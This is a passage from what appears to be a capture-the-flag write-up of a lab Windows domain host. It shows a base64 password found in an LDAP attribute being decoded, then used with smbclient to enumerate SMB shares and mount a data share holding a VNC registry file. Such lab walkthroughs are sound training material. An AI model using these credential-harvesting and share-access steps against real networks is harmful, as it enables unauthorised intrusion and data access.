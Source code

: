     dSCorePropagationData: 16010101000000.0Z
    lastLogonTimestamp: 132294360317419816
    msDS-SupportedEncryptionTypes: 0
    cascadeLegacyPwd: clk0bjVldmE=

We decode it and found the password `rY4n5eva` for the `r.thompson` account.

    :::text
    kali@kali:~$  echo -ne 'clk0bjVldmE=' | base64 -d
    rY4n5eva

## SMB share

Using this account we can enumerate the available SMB shares.

    :::text
    kali@kali:~$  smbclient -L \\\\10.10.10.182 -U 'r.thompson'
    Unable to initialize messaging context
    Enter WORKGROUP\r.thompson's password:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            Audit$          Disk
            C$              Disk      Default share
            Data            Disk
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share
            print$          Disk      Printer Drivers
            SYSVOL          Disk      Logon server share
    SMB1 disabled -- no workgroup available

We mount the `Data` share using our account and list its content, the file `VNC
Install.reg` inside `s.smith` folder seems interesting.

    :::text
    kali@kali:~$  sudo mount //10.10.10.182/Data /mnt/ -o username=r.thompson
    tree /mnt/
    /mnt/
    ├── Contractors
    ├── Finance
    ├── IT
    │   ├── Email Archives
    │   │   └── Meeting_Notes_June_2018.html
    │   ├── LogonAudit
    │   ├── Logs
    │   │   ├── Ark AD Recycle Bin
    │   │   │   └── ArkAdRecycleBin.log
    │   │   └── DCs
    │   │       └── dcdiag.log
    │   └── Temp
    │       ├── r.thompson
    │       └── s.smith
    │           └── VNC Install.reg
    ├── Production
    └── Temps
